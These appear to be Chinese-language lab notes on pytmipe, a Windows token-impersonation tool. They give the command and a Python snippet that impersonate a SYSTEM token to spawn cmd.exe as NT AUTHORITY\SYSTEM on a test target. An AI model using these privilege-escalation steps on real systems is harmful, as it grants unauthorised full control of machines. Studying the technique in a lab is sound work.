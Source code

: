 
#### For python library (named pytmipe)

请参阅源代码和示例。通常，作者已经很好地记录了源代码... 大多数函数都有文档说明。

---

#### For pyinstaller **examples** and standalones

请参阅 [src/examples/文件夹 ](https://github.com/quentinhardy/pytmipe/tree/master/src/examples)中的文件

---

### 示例

如果您想了解如何使用*pytimpe*库，请参阅  [src/examples/文件夹 ](https://github.com/quentinhardy/pytmipe/tree/master/src/examples)中的示例

---

#### 示例1-获取 nt authority\system

For impersonating(模拟) the first system token and get a cmd.exe prompt as system from python client (*tmipe*):

```bash
python.exe tmipe.py searchimpfirstsystem -vv
```

要直接通过*pytmipe*库执行相同的操作，请参阅 `src/examples/searchAndImpersonateFirstSystemToken.py`：

```python
from impersonate import Impersonate
from utils import configureLogging

configureLogging()
imp = Impersonate()
imp.searchAndImpersonateFirstSystemToken(targetPID=None, printAllTokens=False)
```

​    如果当前 Windows 用户具有所需的权限(local administrator)，它将以系统身份打开 cmd.exe 提示符。

> 当然，从这个源代码中，您可以使用 pyinstaller 创建一个独立的 exe。

---

> 环境： Win10 Pro 22H2 + Python 3.10.6

将仓库 clone 下来然后放到靶机上，cd 进入项目 src 目录， 先安装依赖：

```bash
pip install -r requirements.txt
```

![image-20241206144237768](http://cdn.ayusummer233.top/DailyNotes/202412061442870.png)

然后

```bash
python.exe tmipe.py searchimpfirstsystem -vv
```
